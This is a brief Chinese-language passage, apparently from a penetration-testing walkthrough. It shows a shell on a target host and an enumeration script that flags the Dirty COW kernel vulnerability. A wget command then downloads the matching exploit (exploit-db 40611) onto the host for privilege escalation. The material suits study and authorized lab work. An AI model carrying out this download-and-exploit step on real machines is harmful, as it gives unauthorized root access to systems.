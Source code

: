 创建shell窗口，执行探针脚本。

![进入shell模式](./脏牛/进入shell模式.png)

发现脏牛漏洞

![发现脏牛漏洞](./脏牛/发现脏牛漏洞.png)

可以通过脚本给出的URL直接下载exp（缺点是下载后文件名字就是40611，需要手动修改后缀进行后续的执行）。

```bash
wget https://www.exploit-db.com/download/40611
```

下载exp。

![下载exp](./脏牛/下载exp.png)

